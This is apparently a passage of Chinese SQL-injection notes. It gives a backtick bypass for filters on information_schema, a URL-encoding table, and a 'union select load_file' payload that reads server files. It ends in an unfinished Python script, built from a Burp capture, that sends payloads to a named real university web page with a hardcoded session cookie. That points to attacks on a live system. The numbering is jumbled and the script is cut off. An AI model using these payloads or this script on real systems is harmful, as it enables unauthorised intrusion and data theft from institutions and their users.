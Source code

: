 ## information_schema.tables、information_schema.columns 过滤

使用

```
information_schema.`tables`
```

## 9.常见url编码

```
+	%2B
@	%40
:	%3A
;	%3B
<	%3C
=	%3D
>	%3E
?	%3F
z	%7A
{	%7B
}	%7D
~	%7E
空格	%20
！	%21
"	%22
#	%23
$	%24
%	%25
&	%26
'	%27
(	%28
)	%29
0	%30
1	%31
```



# 8.直接读取文件

有的 sql 注入题目可以直接读取一些相关页面，可以读到 flag

使用 load_file 读一下

```
-1 union select load_file('var/www/html/index.php')
```

# 9.flask

```pyhton
from flask import Flask,request,jsonify
from bs4 import BeautifulSoup
import requests

def remote_login(payload):
    burp0_url = "https://pzxg.peizheng.edu.cn:443/sms3/class/evaluationNew/stuEvaApplicationStuAllAddList.jsp"
    burp0_cookies = {"JSESSIONID": "CD45B234B081F3FB7FB53558810111EE.sms49_01"}
    burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0",
                     "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8",
```